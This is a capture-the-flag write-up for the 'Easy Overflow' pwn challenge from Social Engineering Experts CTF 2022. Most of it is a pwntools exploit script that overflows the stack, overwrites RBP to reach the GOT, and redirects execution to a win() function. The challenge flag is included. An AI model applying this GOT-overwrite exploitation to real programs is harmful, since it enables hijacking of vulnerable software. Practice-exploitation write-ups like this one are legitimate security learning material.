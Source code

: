 ```yaml
---
name: Easy Overflow (2022)
event: Social Engineering Experts CTF 2022
category: Pwn
description: Writeup for Easy Overflow (Pwn) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Easy Overflow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=2362 "Social Engineering Experts CTF 2022: Easy Overflow")

## Description

> I did a check on my return address. Now you shouldn't be able to control my RIP.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x4011ca
break *0x401247
continue
'''.format(**locals())

# Binary filename
exe = './easy_overflow'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Build the payload
payload = flat([
    b'A' * 32,  # Pad to stack
    # Overwrite RBP with address of got.gets()
    elf.got.gets,  # This will become got.puts
    0x401212  # Address required to meet RIP check
])

# Send the payload
io.sendlineafter(b'I will let you  overflow me.', payload)

# Write the address of win() into puts()
io.sendlineafter(b'I will give you one more chance.', flat(elf.functions.win))

# Got Flag?
io.interactive()
```

Flag: `SEE{R1P_15_K1NG_RBP_15_QU33N_31cfc2f963517cd7e1b33b84a0e6bea2}`
